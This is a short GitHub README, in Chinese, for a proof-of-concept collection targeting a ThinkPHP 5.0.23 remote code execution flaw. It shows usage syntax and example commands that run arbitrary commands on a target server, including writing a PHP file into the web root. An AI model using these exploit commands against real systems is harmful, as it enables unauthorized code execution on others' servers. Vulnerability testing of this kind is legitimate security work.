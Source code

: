 # thinkphp-poc php thinkphp-poc集合
## thinkphp-5.0.23-rce.py 
thinkphp-5.0.23版本的 poc利用
### 使用说明
```
python thinkphp-5.0.2.3-rce.py -u [目标URL] -c [远程执行的命令]
// 使用示例
python thinkphp-5.0.23-rce.py -u http://10.0.0.135:8080/  -c "touch /tmp/bbb"
python thinkphp-5.0.23-rce.py -u http://10.0.0.135:8080/  -c "echo '<?php phpinfo(); ?>' > info.php"
```
